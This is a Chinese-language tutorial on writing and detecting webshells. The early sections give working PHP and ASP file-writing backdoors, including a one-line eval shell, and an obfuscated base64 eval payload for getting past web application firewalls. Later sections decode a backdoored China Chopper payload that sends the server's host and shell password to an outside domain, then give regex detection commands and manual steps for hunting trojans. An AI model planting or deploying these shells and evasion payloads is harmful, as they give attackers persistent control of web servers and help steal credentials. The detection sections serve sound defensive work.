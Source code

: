 # 一些脚本后门的分析、编写及绕过技巧

## 1、PHP小马

表单中action属性为要提交的地址；PHP_SELF获取当前文件；DOCUMENT_ROOT获取当前运行脚本所在的文档根目录；textarea为多行文本输入框；

```php
<?
$path=$_POST['path'];
$data=$_POST['data'];
$file=fopen($path,"w+");
fwrite($file,$data);
fclose($file);
?>

<form action="" method="post">
读取当前文件路径：
<? echo $_SERVER['DOCUMENT_ROOT'].$_SERVER['PHP_SELF'];?></br>
保存路径：<input name="path" type="text" /><br>
写入内容：<br><textarea name="data" cols="90" rows="50"></textarea></br>
<input name="" type="submit" value="提交"/>
</form>

```

有密码验证的PHP小马：

```php
<html>
<head>
<title><?=$_SERVER['SERVER_NAME']?>的后门小马</title>
</head>
<?php
error_reporting(0);//不显示错误信息
$password="xiaoxian";
if ($_GET[pass]==$password){//判断输入的密码是否正确
	if ($_POST){
		$path=$_POST['path'];//从表单获取的上传的路径
		$data=$_POST['data'];//从表单获取的上传的内容
		$file=fopen($path,"w+");
		if(fwrite($file,$data))
			echo "Succeeded!";
		else
			echo "Failed!";
		fclose($file);
	}
	else{
		echo "xiaoma.php with password by xiaoxian";
	}
?><br><br>

服务器的IP地址和域名为:<?=$_SERVER['SERVER_NAME']?>(<?=@gethostbyname($_SERVER['SERVER_NAME'])?>)<br>
当前目录路径:
<?php echo $_SERVER['DOCUMENT_ROOT'].$_SERVER['PHP_SELF'];?></br>
<form action="" method="post">
保存路径:<input name="path" type="text" /><br>
保存内容:<br><textarea name="data" cols="90" rows="50"></textarea></br>
<input name="" type="submit" value="Submit"/>
</form>

<?php
 }else{	//输入密码错误时则一直在输入密码的界面
?>

<form action="" method="GET">
密码:<input type="password" name="pass" id="pass">
<input type="submit" name="login" value="Login in" /></form>
<?php } ?>
```



## 2、一句话木马实现原理和编写

客户端：

```asp
<form action=http://10.10.10.144/1.asp method=post>
<textarea name=xiaoxian cols=120 rows=10 width=45>
set IP=server.CreateObject("Adodb.Stream")//建立流对象
IP.Open
IP.Type=2//以文本方式 
IP.CharSet="gb2312"//字体标准
IP.writetext request("newvalue")
IP.SaveToFile server.mappath("new.asp"),2//将木马内容以覆盖文件的方式写入new.asp，2就是已覆盖的方式
IP.Close
set IP=nothing//释放对象
response.redirect "new.asp"//转向new.asp
</textarea>
<textarea name=newvalue cols=120 rows=10 width=45>这里填生成木马的代码
</textarea><br><center><br>
<input type=submit value=提交>
</form>
```

服务端中有文件1.asp，内容为：

```asp
<%execute request("xiaoxian")%>
```

表单的作用就是把表单里的内容提交到服务器端的1.asp文件，而1.asp即为一句话木马，会执行提交的内容。简单地说，就是构造两个表单,第一个表单里的代码是文件操作的代码(就是把第二个表单内的内容写入在当前目录下并命名为new.asp的这么一段操作的处理代码)那么第二个表单当然就是我们要写入的马了。第一个表单的名字和1.asp中的密码必须一样，而第二个表单的名字必须和IP.writetext request("newvalue") 里的newvalue一样。至此只要服务器有写的权限该表单所提交的大马内容就会被写入到new.asp中。即new.asp为我们的shell地址。



## 3、一句话木马如何绕过WAF实现上传

这时候进行编码即可下面的是一个简单的编码例子，复杂的到网上下载即可：

```php
<?php
$mt="JF9QT1NU";
$ojj="QGV2YWwole";
$hsa="Wydlele4aW";
$fnx="FveGlhbiddKTs=";
$zk=str_replace("d","","sdtdrd_redpdldadcde");
$ef=$zk("z","","zbazsze64_zdzeczodze");
$dva=$zk("p","","pcprpepaptpe_fpupnpcptpipopn");
$zvm=$dva('',$ef($zk("le","",$ojj.$mt.$hsa.$fnx)));
$zvm();
?>
```



## 4、中国菜刀一些技巧和后门分析

开启安全狗之后即使上传了一句话木马但是也是无法直接用菜刀连接的，将菜刀发送的信息通过Firefox的Hackbar来POST过去即可绕过。

具体的效果要看不同种类、不同版本的WAF了，这里使用的是最新版的安全狗因为还是被过滤了。当然网上也有过狗版的菜刀，但是本人使用的版本效果并不好。

如何检测菜刀是否存在后门？

使用WSockExpert软件或其它抓包软来来选择需要监听的“中国菜刀”程序，开始监听后，用菜刀连接Webshell进行一些操作，然后查看抓到的包，找到Send即发送包，其中的内容含有密码xiaoxian和加密过的内容，接着对里面的内容解码就是（这个是据说是官网下载的菜刀，但是确实没看到有后门）：

```php
@eval (base64_decode($_POST[z0]));
&z0=@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;$D=base64_decode($_POST["z1"]);$F=@opendir($D);if($F==NULL){echo("ERROR:// Path Not Found Or No Permission!");}else{$M=NULL;$L=NULL;while($N=@readdir($F)){$P=$D."/".$N;$T=@date("Y-m-d H:i:s",@filemtime($P));@$E=substr(base_convert(@fileperms($P),10,8),-4);$R="\t".$T."\t".@filesize($P)."\t".$E."
";if(@is_dir($P))$M.=$N."/".$R;else $L.=$N.$R;}echo $M.$L;@closedir($F);};echo("|<-");die();
&z1=@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->C:\\wce\\

```

这是有后门的菜刀第一次解码的结果：

```php
@eval(base64_decode('aWYoJF9DT09LSUVbJ0x5a2UnXSE9MSl7c2V0Y29va2llKCdMeWtlJywxKTtAZmlsZSgnaHR0cDovL3d3dy5hcGkuY29tLmRlL0FwaS5waHA/VXJsPScuJF9TRVJWRVJbJ0hUVFBfSE9TVCddLiRfU0VSVkVSWydSRVFVRVNUX1VSSSddLicmUGFzcz0nLmtleSgkX1BPU1QpKTt9'));@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;$D=dirname($_SERVER["SCRIPT_FILENAME"]);if($D=="")$D=dirname($_SERVER["PATH_TRANSLATED"]);$R="{$D}\t";if(substr($D,0,1)!="/"){foreach(range("A","Z")
 as 
$L)if(is_dir("{$L}:"))$R.="{$L}:";}$R.="\t";$u=(function_exists('posix_getegid'))?@posix_getpwuid(@posix_geteuid()):'';$usr=($u)?$u['name']:@get_current_user();$R.=php_uname();$R.="({$usr})";print
 $R;;echo("|<-");die();

```

将中间base64加密字段进行第二次解密：

```php
if($_COOKIE['Lyke']!=1){setcookie('Lyke',1);@file('http://www.api.com.de/Api.php?Url='.$_SERVER['HTTP_HOST'].$_SERVER['REQUEST_URI'].'&Pass='.key($_POST));}
```

可以看到这个菜刀明显存在后门。

另外，在X-Forwarded-For这里是值得怀疑的地方，因为这里的IP是别的地方的，网上还没找到关于这种情况是不是后门的相关内容。这个地方大家可以研究一下，个人觉得是比较隐蔽的后门吧，但是问题是我所用的几个版本的菜刀在X-Forwarded-For这里都是有这个别的地方的IP的。



## 5、Linux、Windows下查找菜刀一句话木马

Linux：

使用egrep命令进行正则匹配

egrep -re ' [<][?]php\s\@eval[(]\$_POST\[.+\][)];[?][>]' *.php_



Windows：

通过findstr命令加上正则表达式搜索文件

findstr /R "[<][?]php.\@eval[(]\$_POST.*[)];[?][>]" *.php



若是asp一句话木马，则需要修改正则表达式即可：

egrep -re '[<]\%\@\sPage\sLanguage=.Jscript.\%[>][<]\%eval.Request\.Item.+unsafe' *.aspx

findstr /R "[<]\%\@.Page.Language=.Jscript.\%[>][<]\%eval.Request\.Item.*unsafe" *.aspx



## 6、其他脚本后门分析

一般的方法就是，通过Firefox的F12即开发者工具到Network网络查看，如果在URL下还有访问其它网页的信息，那么基本就是存在后门。



## 7、手动查找后门木马

1、系统的启动项，在运行输入msconfig，在打开的系统配置实用程序里的启动列表查看，并且服务也要注意一下，可以使用360安全卫士等软件的开机加速功能，来查看有无异常的可以启动项和服务项，因为在后门木马中99%都会注册自己为系统服务，达到开机自启动的目的，如果发现可疑项直接打开相应的路径，找到程序文件，直接删除并且禁止自启动；

2、查看系统关键目录system32和系统安装目录Windows下的文件。然后查看最新修改的文件中有没有可疑的可执行文件或dll文件，这两个地方都是木马最喜欢的藏身的地方了（记得先设置显示所有的文件和文件夹）；

3、观察网络连接是否存在异常，还有输入netstat -ano命令查看有没有可疑或非正常程序的网络连接，尤其注意一下远程连接的端口，如果有类似于8000等端口就要注意了，8000是灰鸽子的默认端口。

这里重点讲一下第三点：

1、 查看进程：

         netstat-an

         netstat -ano多显示一个PID，先查看established的进程中所连接的外部地址是否是一个可疑的、没见过的地址，如果本身主机没有进行什么网络访问的话就需要警惕了，先记住这个可疑进程的PID。

         tasklist /svc，输入这个命令，通过对应的PID找到对应的进程名。

2、 查看服务：

         可以使用工具XueTr来进行更为简便的操作，使用其查看服务和进程等信息（注意的一点，微软服务的描述在最后都是由句号的，而第三方的服务是没有的）

         先右键到dll文件的路径中将dll文件删除，然后到相应的服务中将其删除掉，最后将可疑进程终止掉。